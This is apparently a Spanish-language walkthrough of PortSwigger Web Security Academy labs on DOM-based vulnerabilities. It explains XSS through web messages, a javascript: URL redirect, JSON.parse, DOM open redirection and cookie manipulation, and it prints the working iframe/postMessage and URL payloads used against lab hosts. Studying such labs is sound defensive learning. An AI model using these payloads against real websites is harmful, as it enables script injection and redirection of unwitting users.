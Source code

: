 # DOM-based vulnerabilities

## Lab: DOM XSS using web messages

### Enunciado

Este laboratorio demuestra una vulnerabilidad sencilla de mensajes web. Usa el servidor de exploits para enviar un mensaje al sitio objetivo que provoque la ejecución de la función `print()`.

### Resolución

Vemos el código fuente y vemos una función **innerHTML** asigna directamente el contenido al elemento **div** con id **ads**.\
Si **e.data** contiene código HTML o JavaScript, **el navegador lo interpretará y ejecutará**.

Además, **observamos que la respuesta no incluye la cabecera `x-frame-options`:**

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Esto permite **incrustar el sitio en un iframe**.

{% embed url="https://developer.mozilla.org/es/docs/Web/API/Window/postMessage" %}

**Con esa base, podemos crear un HTML malicioso como este:**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=alert(XSS)>','*')">
</iframe>
```

Pero para **resolver el laboratorio**, usaremos el payload que dispara **print():**

```html
<iframe src="https://0a5e00ac04903464809e034d00d300ba.web-security-academy.net/" 
        onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
</iframe>
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and a JavaScript URL

### Enunciado

Este laboratorio demuestra una vulnerabilidad de redirección basada en el DOM que se activa mediante web messaging. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y que ejecute la función `print()`.

### Resolución

Vemos el código fuente.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este caso, **el procesamiento del web message es vulnerable a XSS basado en DOM**, porque **el event listener no valida correctamente el origen de los mensajes recibidos ni las propiedades y funciones que usa.**

Además, **identificamos un&#x20;**_**sink**_**&#x20;peligroso** `location.href`que permite redirigir a otra página. Sin embargo, **antes de hacer la redirección**, el código verifica que los datos del mensaje contengan **http:** o **https.**

**Con esta información, podemos preparar un HTML malicioso** que use un `<iframe>` y la función **postMessage()** para enviar datos al listener vulnerable en la página objetivo:

```html
<html>
  <body>
    <iframe src="https://0a2b0071046a9d6681aec51300f90043.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*');"></iframe>
  </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM XSS using web messages and `JSON.parse`

### Enunciado

Este laboratorio utiliza web messaging y analiza el mensaje como JSON. Crea una página HTML en el servidor de exploits que aproveche esta vulnerabilidad y ejecute la función `print()`.

### Resolución

Vemos el código fuente.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

En este caso, **hay un event listener que recibe mensajes web y los interpreta como datos JSON usando `JSON.parse`**. El problema es que **el listener no valida correctamente el origen del mensaje**, por lo que acepta cualquier entrada.

Dentro del código, hay un `switch` con un caso llamado **`load-channel`**, que **cambia el atributo `src` de un elemento `<iframe>`**. Esto convierte ese atributo en un **sink peligroso**.

Con esta información, podemos **crear un HTML malicioso con un `<iframe>`** y usar `postMessage()` para enviar un mensaje manipulado al listener vulnerable.\
El listener tomará el contenido y lo pasará al sink en la página principal:

```javascript
postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}", "*")
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Creamos el siguiente paylaod.

```
<html>
    <body>
        <iframe src="https://0ae200cd04519f0c824b014900eb0008.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*");'></iframe>
    </body>
</html>
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based open redirection

### Enunciado

Este laboratorio contiene una vulnerabilidad de redirección abierta basada en DOM (DOM-based open-redirection). Exploita esta vulnerabilidad y redirige a la víctima hacia el servidor de exploits.

### Resolución

Vemos el código fuente de los post.

<figure><img src="../../.gitbook/assets/image (1505).png" alt=""><figcaption></figcaption></figure>

Verifica si el objeto **location** contiene **url=**[**http://loquesea.com**](http://loquesea.com) o **url=**[**https://loquesea.com**](https://loquesea.com). Si encuentra ese parámetro, **asigna el valor a `location.href`** para redirigir a esa dirección.

<figure><img src="../../.gitbook/assets/image (1506).png" alt=""><figcaption></figcaption></figure>

Es **vulnerable a redirección abierta basada en DOM**.

Para **explotarla**, podemos **añadir el payload como parámetro GET**:

```
/post?postId=9&url=https://exploit-0a6200ff03db6e4e8148c45501ce0070.exploit-server.net/
```

Así, **forzamos la redirección** a nuestro servidor de exploits.

<figure><img src="../../.gitbook/assets/image (1508).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1507).png" alt=""><figcaption></figcaption></figure>

## Lab: DOM-based cookie manipulation

### Enunciado

Este laboratorio demuestra una manipulación de cookies en el lado del cliente basada en DOM. Inyecta una cookie que provoque un ataque XSS en otra página y ejecute la función `print()`. Para ello, deberás usar el servidor de exploits para redirigir a la víctima a las páginas correctas.

### Resolución

Vemos el código fuente de los productos.

<figure><img src="../../.gitbook/assets/image (1509).png" alt=""><figcaption></figcaption></figure>

Aquí vemos que hay un **sink peligroso**: `document.cookie`. La **fuente** de datos (input controlado por el atacante) es **`window.location`**.

Esto significa que **se establecerá una nueva cookie** llamada `lastViewdProduct`, **usando como valor la propiedad `window.location`**.

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1510).png" alt=""><figcaption></figcaption></figure>

Cuando actualizamos la página, **se genera dinámicamente un nuevo enlace `<a>`** con el atributo **href** igual a **`window.location`**.

Esto significa que **podemos inyectar código malicioso en la URL**.

```
/product?productId=1&payload='><img src=errorpls onerror="print()">
```

Al incluir este payload, **cerramos el atributo href y añadimos un elemento `<img>` con un evento `onerror` que ejecuta `print()`.**

<figure><img src="../../.gitbook/assets/image (1511).png" alt=""><figcaption></figcaption></figure>

Refrescamos la página.

<figure><img src="../../.gitbook/assets/image (1512).png" alt=""><figcaption></figcaption></figure>

Sabiendo esto ya podemos crear el payload HTML.

```
<html>
    <body>
        <iframe src="https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net/product?productId=1&payload=%27%3E%3Cimg%20src%3Derrorpls%20onerror%3D%22print%28%29%22%3E" onload="if(!window.triggerXSSPayload)this.src='https://0af7002804ccb93881db16ef001d00b0.web-security-academy.net';window.triggerXSSPayload=1;"></iframe>
    </body>
</html>
```

Este **payload** generará un **elemento `<iframe>`** apuntando a nuestra URL con el payload que establece la cookie. Cuando se cargue, **verificamos si se activó el XSS**.

Si **no se dispara**, entonces **cambiamos el atributo `src` del `<iframe>`** para que apunte a la **página principal del sitio vulnerable**.

De este modo, **forzamos a que se cargue la cookie inyectada y se ejecute el payload XSS.**

<figure><img src="../../.gitbook/assets/image (1513).png" alt=""><figcaption></figcaption></figure>
